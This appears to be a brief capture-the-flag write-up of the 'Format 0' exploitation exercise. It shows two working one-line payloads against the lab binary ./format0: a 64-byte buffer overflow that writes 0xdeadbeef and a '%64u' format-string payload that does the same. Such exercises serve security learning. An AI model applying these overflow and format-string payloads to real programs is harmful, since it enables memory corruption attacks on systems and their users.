 #Format 0

For this challenge, I have spent quite a time to understand better about how to take advantage of format pointer stored on the stack.

At first, I tried to get the address of the target by modifying the script little a bit but then realize that I can just do bufferoverflow

```
./format0 $(python -c 'print "A" * 64 + "\xef\xbe\xad\xde') 
``` 

But then again, the point of this challenge is to take advantage of Format string vuln. Beside, they even said that it should be less than 10 bytes to solve this challenge.


using %u pop off 64 (buffer) and overwrite the pointer to deadbeef:

```
./format0 $(python -c 'print "%64u" + "\xef\xbe\xad\xde"')
```

And that`s it for this challenge.
